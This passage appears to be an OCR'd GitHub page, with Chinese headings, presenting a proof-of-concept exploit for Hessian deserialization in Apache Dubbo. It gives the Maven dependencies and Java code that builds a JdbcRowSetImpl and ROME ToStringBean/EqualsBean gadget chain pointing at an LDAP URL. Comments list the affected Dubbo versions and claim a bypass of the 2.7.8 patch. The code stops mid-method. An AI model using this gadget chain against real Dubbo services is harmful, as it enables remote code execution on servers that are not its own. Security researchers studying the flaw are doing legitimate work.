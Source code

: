 ```xml
            <artifactId>rome</artifactId>
            <version>1.8.0</version>
        </dependency>
        <dependency>
            <groupId>org.apache.dubbo</groupId>
            <artifactId>Dubbo</artifactId>
            <version>2.7.3</version>
        </dependency>
        <dependency>
            <groupId>com.caucho</groupId>
            <artifactId>hessian</artifactId>
            <version>4.0.38</version>
        </dependency>
```



#### 漏洞触发点1

该触发点可以一直沿用到2.7.13

POC：

```java
package org.exploit.third.Dubbo;

import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.rowset.JdbcRowSetImpl;
import java.io.ByteArrayOutputStream;
import java.io.OutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.net.Socket;
import java.util.HashMap;
import java.util.Random;

import marshalsec.HessianBase;
import marshalsec.util.Reflections;
import org.apache.dubbo.common.io.Bytes;
import org.apache.dubbo.common.serialize.Cleanable;
//Apache Dubbo 2.7.0 ~ 2.7.13
//Apache Dubbo 2.6.0 ~ 2.6.7
//Apache Dubbo 2.5.x 所有版本 (官方不再提供支持)。
//在实际测试中2.7.8补丁绕过

public class GadgetsTestHessian {
    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl rs = new JdbcRowSetImpl();
        //todo 此处填写ldap url
        rs.setDataSourceName("ldap://127.0.0.1:8085/GQOsPFQU");
        rs.setMatchColumn("foo");
        Reflections.setFieldValue(rs, "listeners",null);

        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, rs);
        EqualsBean root = new EqualsBean(ToStringBean.class, item);

        HashMap s = new HashMap<>();
        Reflections.setFieldValue(s, "size", 1);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
```
